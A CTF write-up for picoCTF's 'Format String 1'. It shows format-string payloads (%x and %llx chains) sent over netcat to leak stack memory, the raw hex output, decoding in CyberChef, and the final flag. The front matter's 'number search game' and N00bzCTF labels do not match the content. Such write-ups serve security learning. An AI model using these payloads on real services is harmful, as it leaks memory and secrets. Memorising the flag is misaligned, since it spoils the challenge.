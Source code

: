 ```yaml
---
layout: post
title:  "Format String 1"
description: Exploiting a simple number search binary game
date:   2024-08-25
tags: ["Binary", "Programming", "Binary Search"]
category: [CTF,N00bzCTF]
---
```


# Challenge Info
Patrick and Sponge Bob were really happy with those
orders you made for them, but now they're curious
about the secret menu. Find it, and along the way,
maybe you'll find something else of interest!

Download the binary [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1).

Download the source [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1.c).

Connect with the challenge instance here:
`nc mimas.picoctf.net <port>`

author: Connor Chang

![format string 1](/assets/img/formatstring-1/formatstring1.png)

## Attempts

Upon connecting to the netcat listener, we're prompted: `Give me your order and I'll read it back to you:`

Because of the name of the challenge; "**Format String** 1", we already get a pretty big hint. Just from experience, I know that `%x` can be used in format string vulnerabilities to either dump or navigate memory stacks. Naturally, this is the route I took.

```
~ > nc mimas.picoctf.net 63183                               INT 18s
Give me your order and I'll read it back to you:
%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,
Here's your order: 402118,0,6377ea00,0,a64880,a347834,b4da5590,6356fe60,637944d0,1,b4da5660,0,0,6f636970,6d316e34,33317937,3431665f,64303935,7,637968d8,7,74307250,6c797453,9,637a7de9,63578098,637944d0,0,b4da5670,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,454d4100,6e656c6c,4c564c48,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
Bye!
```

After pasting this into [Cyberchef](https://gchq.github.io/CyberChef/) with "From Hex" selected, I started to notice what might be a flag.

![possible flag](/assets/img/formatstring-1/possibleflag.png)

## Solution

After inspecting the initial output, I decided to modify my format string to use `%llx` instead of `%x`. The `ll` modifier stands for "long long," which in C is a data type representing a 64-bit integer. By using `%llx`, I ensured that each stack read would capture a full 64-bit value, meaning 16 hexadecimal digits would be printed instead of just 8. This is important because the flag or other useful data might be stored in a location that requires reading all 16 bytes (instead of 8) to be fully captured.

After using this adjustment, with commas `,` to clearly separate each stack, I got a different result:


```
~ > nc mimas.picoctf.net 63183                            INT 1m 53s
Give me your order and I'll read it back to you:
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,
Here's your order: 402118,0,7aaeacfeba00,0,1c1f880,a347834,7ffd67ec6cc0,7aaeacddce60,7aaead0014d0,1,7ffd67ec6d90,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935,7,7aaead0038d8,2300000007,206e693374307250,a336c797453,9,7aaead014de9,7aaeacde5098,7aaead0014d0,0,7ffd67ec6da0,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,
Bye!
```

I decided to put these hex values through Cyberchef again, and saw what's definitely an encoded flag:

![possible flag](/assets/img/formatstring-1/possibleflag2.png)

After removing the null values, I was left with this:

![jumbled flag](/assets/img/formatstring-1/jumbledflag.png)

From here, the challenge is mostly nonsensical decoding, and it gets really bad (there is a reason it's < 50% positive reviews). I went through it anyways, but I probably won't write how I decoded/solved it, it's not really "hacking" and serves no purpose for this challenge.

flag: `picoCTF{4n1m41_57y13_4x4_f14g_65590d41}`
